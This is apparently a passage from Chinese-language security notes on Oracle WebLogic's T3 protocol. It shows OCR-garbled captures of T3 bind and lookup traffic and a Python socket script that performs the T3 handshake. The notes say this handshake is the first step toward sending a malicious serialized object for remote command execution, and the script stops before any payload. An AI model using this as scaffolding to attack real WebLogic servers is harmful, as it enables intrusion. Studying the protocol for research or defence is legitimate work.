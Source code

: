 ```
.../.e........	.......t..aeda1t..12345sr.xp?@......w.........t..java.naming.factory.initialt.%weblogic.jndi.WLInitialContextFactoryt..java.naming.provider.urlt..t3://192.168.0.102:7001xp.........sr..weblogic.rjvm.ClassTableEntry/Re.W......xpr..java.util.Hashtable...%!J.....F.
loadFactorI.	thresholdxpw...x........sr.%weblogic.rjvm.ImmutableServiceContext...pc......xr.)weblogic.rmi.provider.BasicServiceContext.c"6.......xpw...sr.&weblogic.rmi.internal.MethodDescriptor.HZ....{...xpwE.?bind(Ljava.lang.String;Ljava.lang.Object;Ljava.util.Hashtable;)...	xx...
服务器响应
.....e.............p....
客户端发送查找请求
.....e........	.......t..aeda1sr.xp?@......w.........t..java.naming.factory.initialt.%weblogic.jndi.WLInitialContextFactoryt..java.naming.provider.urlt..t3://192.168.0.102:7001xp..........sr.%weblogic.rjvm.ImmutableServiceContext...pc......xr.)weblogic.rmi.provider.BasicServiceContext.c"6.......xpw...sr.&weblogic.rmi.internal.MethodDescriptor.HZ....{...xpw5./lookup(Ljava.lang.String;Ljava.util.Hashtable;)...	xx...
服务器返回序列化之后的对象
... .e.............t..12345p....

```

通过python的socket接口向weblogic也可以发送t3请求，对于存在t3反序列化漏洞的版本，可以这样构造恶意代码造成远程命令执行

```python
import socket
import struct
import sys

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server_address = ("192.168.0.102", 7001)
print ('connecting to ')
sock.connect(server_address)

# Send headers
headers='t3 12.2.1\nAS:255\nHL:19\nMS:10000000\nPU:t3://us-l-breens:7001\n\n'
headers_bytes = headers.encode('utf-8')
print( 'sending ')
sock.sendall(headers_bytes)


data = sock.recv(1024)
print ( 'received "%s"' % data)

# the evil obj can be sent if the vulnerability exists
...
```

![image-20230714003921173](.\images\image-20230714003921173-16902137501053.png)
